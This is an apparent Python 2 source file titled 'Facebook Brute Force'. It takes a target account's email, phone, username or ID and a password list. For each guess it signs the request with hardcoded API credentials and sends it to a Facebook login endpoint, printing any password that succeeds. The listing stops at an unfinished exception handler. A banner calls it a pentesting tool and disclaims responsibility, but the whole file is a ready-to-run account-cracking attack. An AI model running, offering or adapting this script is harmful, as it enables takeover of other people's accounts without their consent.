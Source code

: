 # Fb-cracker
ute.py - Facebook Brute Force # -*- coding: utf-8 -*- ## import os import sys import urllib import hashlib   API_SECRET = "62f8ce9f74b12f84c123cc23437a4a32"   __banner__ = """        +=======================================+        |..........Facebook Cracker v 1.........|        +---------------------------------------+        |#Author: DedSecTL &lt;dtlily>             |        |#Contact: Telegram @dtlily             |        |#Date: Fri Feb 8 10:15:49 2019         |        |#This tool is made for pentesting.     |        |#Changing the description of this tool |        |Won't made you the coder  !!!       |        |#Respect Coderz                     |        |#I take no responsibilities for the    |        |  use of this program !                |        +=======================================+        |..........Facebook Cracker v 1.........|        +---------------------------------------+ """   print("[+] Facebook Brute Force\n") userid = raw_input("[*] Enter [Email|Phone|Username|ID]: ") try:     passlist = raw_input("[*] Set PATH to passlist: ")     if os.path.exists(passlist) != False:         print(__banner__)         print(" [+] Account to crack : {}".format(userid))         print(" [+] Loaded : {}".format(len(open(passlist,"r").read().split("\n"))))         print(" [+] Cracking, please wait ...")         for passwd in open(passlist,'r').readlines():             sys.stdout.write(u"\u001b[1000D[*] Trying {}".format(passwd.strip()))             sys.stdout.flush()             sig = "api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail={}format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword={}return_ssl_resources=0v=1.0{}".format(userid,passwd.strip(),API_SECRET)             xx = hashlib.md5(sig).hexdigest()             data = "api_key=882a8490361da98702bf97a021ddc14d&amp;credentials_type=password&amp;email={}&amp;format=JSON&amp;generate_machine_id=1&amp;generate_session_cookies=1&amp;locale=en_US&amp;method=auth.login&amp;password={}&amp;return_ssl_resources=0&amp;v=1.0&amp;sig={}".format(userid,passwd.strip(),xx)             response = urllib.urlopen("https://api.facebook.com/restserver.php?{}".format(data)).read()             if "error" in response:                 pass             else:                 print("\n\n[+] Password found .. !!")                 print("\n[+] Password : {}".format(passwd.strip()))                 break         print("\n\n[!] Done .. !!")     else:         print("fbbrute: error: No such file or directory") except KeyboardInterrupt:
